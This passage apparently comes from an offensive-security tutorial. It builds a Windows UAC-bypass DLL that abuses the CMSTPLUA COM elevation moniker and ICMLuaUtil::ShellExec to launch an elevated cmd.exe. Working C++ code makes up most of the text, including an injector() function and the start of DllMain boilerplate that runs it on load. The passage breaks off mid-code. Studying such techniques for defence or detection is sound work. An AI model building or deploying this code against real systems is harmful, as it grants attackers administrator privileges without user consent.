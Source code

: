 Next, we will declares HRESULT values for error checking and a smart COM pointer to the ICMLuaUtil interface.  Then, we will prepares the moniker string to request elevation through COM:

Moniker String: **"Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"** This moniker asks COM to create an elevated instance of the class CMSTPLUA.  We will next do some string to GUID conversions on CLSID and IID.  Then, we need to setup binding options for CoGetObject(), telling it to look for a local server COM object.  Finally, we use `CoGetObject()` with the special elevation moniker to request an elevated COM object implementing ICMLuaUtil.  If successful, it uses the `ShellExec` method of ICMLuaUtil to launch an elevated cmd.exe!

```cpp
int injector() {
    HRESULT hr, coi;
    CComPtr<ICMLuaUtil> spLuaUtil;
    WCHAR moniker[MAX_PATH] = L"Elevation:Administrator!new:";
    wcscat_s(moniker, CLSID_CMSTPLUA);

    CLSID clsid;
    IID iid;

    coi=CoInitialize(NULL);  

    if (FAILED(CLSIDFromString(CLSID_CMSTPLUA, &clsid)) ||
        FAILED(IIDFromString(IID_ICMLuaUtil, &iid))) {
        CoUninitialize();
        return -1;
    }

    BIND_OPTS3 opts;
    ZeroMemory(&opts, sizeof(opts));
    opts.cbStruct = sizeof(opts);
    opts.dwClassContext = CLSCTX_LOCAL_SERVER;

    hr = CoGetObject(moniker, (BIND_OPTS*)&opts, iid, (void**)&spLuaUtil);
    if (SUCCEEDED(hr) && spLuaUtil) {
        spLuaUtil->ShellExec(
            L"C:\\Windows\\System32\\cmd.exe",
            nullptr,
            nullptr,
            SEE_MASK_DEFAULT,
            SW_SHOW);
    }

    CoUninitialize();
    return 0;
}
```

The final code is just boiler plate DLL code that sets up DLLMain and our thread we will be creating to execute the injector() function:

```cpp
DWORD WINAPI ThreadProc(LPVOID lpParameter) {
    HMODULE hModule = (HMODULE)lpParameter;
    injector();
    FreeLibraryAndExitThread(hModule, 0);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
```